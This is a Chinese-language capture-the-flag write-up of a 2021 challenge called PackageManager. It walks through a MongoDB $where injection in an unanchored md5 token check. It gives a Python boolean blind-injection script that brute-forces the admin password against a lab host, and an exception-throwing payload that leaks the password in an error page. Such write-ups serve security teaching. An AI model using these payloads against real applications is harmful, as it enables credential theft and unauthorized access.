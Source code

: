 ```yaml
---
title: 祥云杯 2021 PackageManager writeup
date: 2022-03-23 17:41:00
tags: [ctf,security]

---
```


# 祥云杯 2021 PackageManager writeup

这题在BUUOJ上有复现环境，是个mongodb注入的题目，也有xsleaks的解法但是我目前还没搞明白，以下是两种注入的解法

## 布尔盲注

注册登录后发现是个包管理的页面，可以创建自己的包，那么根据源码初始化数据库这一部分，比较显然我们需要登录admin的账号然后admin会有个包里面有flag。

![image-20220323161015566](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323161015566.png)

![image-20220323160826952](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323160826952.png)

那我们的目标就是找到admin用户的密码

漏洞产生的点是/auth接口，auth接口是用于验证submit package的用户是不是admin用户，然后是需要提交一个admin的token，这个token就是admin用户的密码的md5，我们可以在这里构造一下payload然后爆出password，从而实现admin用户登录。

正则检测的waf没有加`^$`,意味着后面可以加or条件，这个很关键

```tsx
router.post('/auth', async (req, res) => {
	let { token } = req.body;
	if (token !== '' && typeof (token) === 'string') {
		if (checkmd5Regex(token)) {
			try {
				let docs = await User.$where(`this.username == "admin" && hex_md5(this.password) == "${token.toString()}"`).exec()
				console.log(docs);
				if (docs.length == 1) {
					if (!(docs[0].isAdmin === true)) {
						return res.render('auth', { error: 'Failed to auth' })
					}
				} else {
					return res.render('auth', { error: 'No matching results' })
				}
			} catch (err) {
				return res.render('auth', { error: err })
			}
		} else {
			return res.render('auth', { error: 'Token must be valid md5 string' })
		}
	} else {
		return res.render('auth', { error: 'Parameters error' })
	}
	req.session.AccessGranted = true
	res.redirect('/packages/submit')
});
```

我们构造token:`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||this.password[0]=="a`使得括号内的值为

`this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" || this.password[0]=="a"`

此时只要或条件成立语句就为真，写个脚本就可以爆出密码啦

```python
import requests
import string

url="http://d8ec246d-507e-4aaa-a226-d318473d31ec.node4.buuoj.cn:81/auth"
headers={
    "Cookie": "session=s%3Ay8Ne8sPLeY55QXmWPyh3WmPiuoDgOp6y.U3VuzJCBxWcb5AWW8CCkPJqnSmYJ1N9EnHvoR%2BBuGho",
}

flag = ''
for i in range(10000):
    for j in string.printable:
        if j == '"':
            continue
        payload='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||this.password[{}]=="{}'.format(i,j)
        data={
            "_csrf": "YzvJKLZc-4Sp0gfSn-hIRIF4bUZu0nhXy0HU",
            "token": payload
        }
        r=requests.post(url=url,data=data,headers=headers,allow_redirects=False)
        # print(r.text)
        if "Found. Redirecting to" in r.text:
            print(payload)
            flag+=j
            print(flag)
            break
```



![image-20220323155929287](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323155929287.png)

![image-20220323160751490](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323160751490.png)

## 异常注入

同样的是对auth接口这里逻辑判断，利用了js的抛出异常和IIFE（立即调用函数表达式）来实现

`token=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()=="admin`

逻辑判断语句为：`this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()!="aaaaa"`

这里就是立即执行throw Error(this.password)，后面是!=还是== 字符串的值是什么都无所谓，只要是语法没问题然后语句正常执行，这里强制抛出异常，从源码中可以看到抛出的异常会被渲染出来，然后就能够看到password的值

```js
let docs = await User.$where(`this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()=="admin""`).exec()
console.log(docs);
```

![image-20220323165452041](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323165452041.png)



